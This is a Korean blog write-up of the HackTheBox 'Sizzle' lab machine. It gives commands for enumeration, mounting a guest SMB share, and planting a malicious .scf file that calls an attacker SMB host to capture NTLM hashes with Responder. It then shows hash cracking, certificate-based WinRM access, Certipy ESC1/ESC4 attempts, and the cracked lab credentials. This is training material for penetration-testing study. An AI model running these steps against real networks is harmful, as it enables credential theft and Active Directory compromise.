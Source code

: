 ```yaml
---
layout: post
title: HackTheBox Sizzle
subtitle: Machine Sizzle Exam WriteUp
author: g3rm
categories: HTB
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - HTB
  - WriteUp
  - OSCP
  - AD
sidebar:
---
```

## Summary
![](assets/images/posts/2025-03-08-Sizzle/c85a008bf6289891ddee6fd8f83bd01d_MD5.jpeg)
## Target - 10.x.x.x
### Open Port
```bash
nmap -sC -sV -Pn -p- -oN Sizzle_allport 10.129.166.251
```
![](/assets/images/posts/2025-03-08-Sizzle/91a4fe3520641d350d9cd2c17fa526c3_MD5.jpeg)

### Web Enum
```bash
gobuster dir -u 10.129.89.62 -w /usr/share/wordlists/dirb/common.txt
```
![](/assets/images/posts/2025-03-08-Sizzle/0890786f6c0ab662374a5b273a0b20d6_MD5.jpeg)
### SMB Attack
```bash
crackmapexec smb 10.129.166.251 -u 'guest' -p '' --shares
crackmapexec smb 10.129.166.251 -u 'guest' -p '' --rid-brute

# smb folder mount
sudo mount -t cifs -o rw,username=guest,password= '//10.129.166.251/Department Shares' ./mnt
sudo ./writable.sh

sudo cp hack.scf /home/g3rrrm/Sizzle/mnt/Users/Public
sudo cp hack.scf /home/g3rrrm/Sizzle/mnt/ZZ_ARCHIVE

sudo responder -I tun0
```

```sh
# writable.sh
#!/bin/bash
list=$(find /home/g3rrrm/Sizzle/mnt -type d)
for d in $list
do
	touch $d/x 2>/dev/null
	if [ $? -eq 0 ]
	then
		echo $d " is writable"
	fi
done
```

```bash
# hack.scf
[Shell]
Command=2
IconFile=\\10.10.14.92\share\pwn.ico
[Taskbar]
Command=ToggleDesktop
```
![](/assets/images/posts/2025-03-08-Sizzle/feb90a37281f6081119d064d6c0c300d_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/16672031a8f50e465559f4f7dbdf0a21_MD5.jpeg)
![](assets/images/posts/2025-03-08-Sizzle/fc82eacd35aec5676eb07300e6cd4b3c_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/89969ad0325ec9c49a8363e96f6e8973_MD5.jpeg)
### Password Crack
```bash
hashcat -h | grep NTLM
hashcat -m 5600 amanda.hash /usr/share/wordlists/rockyou.txt
```
![](/assets/images/posts/2025-03-08-Sizzle/bb07d49603b833a15eba2b10bf594f06_MD5.jpeg)

### Evil-WinRM [Key Auth]
WinRM은 기본적으로 ID/PW 기반의 기본 인증을 통해 인증하지만, 인증서 기반 인증을 통해 인증할 수도 있다.
```bash
# openssl 통한 CSR 파일 생성
openssl req -new -newkey rsa:2048 -nodes -keyout private.key -out request.csr

# 그 후 http://10.129.89.62/certsrv/ : amanda : Ashare1972 를 통해 request.csr 업로드 후 cer 다운로드 [사진 참조]

# 받은 cer로 인증 시도
evil-winrm -S -i 10.129.112.117 -u amanda -p Ashare1972 -c certnew.cer -k private.key
```

## 실패 모음
### AD CS [Active Directory Certificate Services]
88 Port [커버로스] 닫혀있어서 실패...
```bash
# http://10.129.89.62/certsrv/ : amanda : Ashare1972
certipy find -u amanda -p Ashare1972 -dc-ip 10.129.89.62 -vulnerable

# ESC4 Exploit : ECS4는 취약한 템플릿을 만들 수 있는 취약점
certipy template -dc-ip 10.129.89.62 -u amanda -p 'Ashare1972' -template SSL -target sizzle.htb.local -save-old

certipy req -ca 'HTB-SIZZLE-CA' -dc-ip 10.129.89.62 -u 'amanda' -p 'Ashare1972' -template SSL -target 'sizzle.htb.local' -upn 'Authenticated Users@htb.local'

# ESC1 Exploit : 
certipy req -u amanda -p 'Ashare1972' -ca 'HTB-SIZZLE-CA' -template SSL -dc-ip 10.129.89.62 -upn 'Administrators@htb.local'
certipy auth -pfx administrators.pfx -dc-ip 10.129.89.62
```
![](/assets/images/posts/2025-03-08-Sizzle/0b7776e5bf429f95044c8fb4e5e9c1f3_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/90fd5a11b99e4b8479c6619b5c6b0f68_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/f87d0086ead259e73afd7b15405c377c_MD5.jpeg)

![](/assets/images/posts/2025-03-08-Sizzle/74208aab76029e691df0a9d30c327b77_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/58218e4bf47327c33fc31589180b1f64_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/06a2d4d6f3b323ac6a2224ff2203209d_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/50f1e956227263d7c075ce19186f646b_MD5.jpeg)
### ING
```
Domain : HTB.LOCAL
DNS : sizzle.HTB.LOCAL

21 FTP
Anonymous FTP login allowed

80, 443 WEB
일단 별거 없어 보임

464
kpasswd Kerberos 암호화 키 변환 서비스

636, 3268, 3269 LDAP

ESC1, ESC2 취약함
"SUBCA@HTB.LOCAL"
Template Name : SubCA
```

```
Credential

amanda : Ashare1972
```
